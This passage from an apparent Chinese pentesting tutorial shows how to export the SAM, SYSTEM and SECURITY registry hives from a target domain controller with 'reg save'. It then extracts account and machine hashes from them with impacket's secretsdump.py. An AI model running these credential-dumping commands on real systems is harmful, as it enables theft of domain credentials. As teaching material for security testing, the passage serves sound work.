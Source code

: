 在目标域控上执行如下三个命令，将注册表中的信息导出成三个文件。

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
```

如图所示，使用 reg 命令将域控注册表中的信息导出成文件。

![截图](6f7e521cc1820bc0fcd0107b5bb19e03.png)

将刚刚保存的三个文件放到 impacket 的 examples 目录下，使用secretsdump.py 执行如下命令提取出文件里面的 hash。

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

如图所示，使用 secretsdump.py 脚本提取出文件里面的 hash，$MACHINE.ACC 后面的 37945b4d7e794816622f47aa8e3b60b8 就是原来的机器哈希。

![截图](62e9a685b3639696bc8d143e659cb254.png)

